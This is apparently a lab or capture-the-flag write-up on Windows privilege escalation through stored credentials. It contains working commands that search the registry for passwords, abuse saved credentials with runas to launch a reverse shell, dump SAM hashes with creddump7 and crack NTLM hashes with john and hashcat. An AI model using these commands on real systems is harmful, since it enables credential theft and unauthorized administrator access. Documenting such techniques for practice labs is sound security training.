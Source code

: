 ### Looking for passwords in Registry:
- We can search registry for passwords, sometimes we can find other user's passwords or even owner's password.
- Run `reg query HKLM /f password /t REG_SZ /s` (for local machine registry) this gives all the details in registry which contains **password** string, search and you might find it! But the sad part is I was unable to obtain any!
- Run `reg query HKCU /f password /t REG_SZ /s` (for current user registry).
- Also run `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
`, we might find some information.
- We can also make use of our legendary tool **winPEAS** run with some options like `windowscreds` - looks for credentials, also `filesinfo` - looks into files and registry for useful data(sometimes passwords also)
- After obtaining password here it's `password123`, so now lets login with the help of **psexec**(link: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) and the syntax is `python3 psexec.py admin@10.10.150.253` then it'll prompt for password mention it and we'll get access like admin!

### Passwords : Savedcreds
- First of all run `cmdkey /list`, here **cmdkey** is an windows-server application that *Creates, lists, and deletes stored user names and passwords or credentials*. By running this we can see what are all the credentials of users saved!
- Th output is,
```
Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
- We can see the user **admin** so lets make use of **runas** utility. *It allows a user to run specific tools and programs with different permissions than the user's current logon provides.*
- lets run `runas /savecred /user:admin C:\Temp\reverse.exe`, this will give us the admin privileges

### Passwords: SAM(Security Accounts manager)
- SAM consists of NTLM hashes of windows passwords, we have chance to crack them but this might not always be helpful because we're dealing with hashes!
- But knowing the method will definitely helps.
- And 99% of the times SAM file cannot be accessed with normal privileges, but here in the box the author created a copy of SAM file in `C:\Windows\Repair` directory, so that we can play! Here in that directory there are 2 files namely, `SAM` and `SYSTEM`
- We need to get both the files so that we can use with a tool named **creddump7**(https://github.com/CiscoCXSecurity/creddump7). I got them thru the help of meterpreter `download` command
- Now after cloning run the following command `python2 pwdump.py /opt/work/SYSTEM /opt/work/SAM` it'll now display the hashes of users that are available in windows machine. The output is,
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
- Now save the above content in a text file and now crack it with the help of **JohnTheRipper**, the syntax is `john --format=NT hashes.txt --wordlist=/usr/share/wordlist/rockyou.txt`, and it cracked!
- Or we can also use `hashcat` to crack the NTLM hashes file `hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt`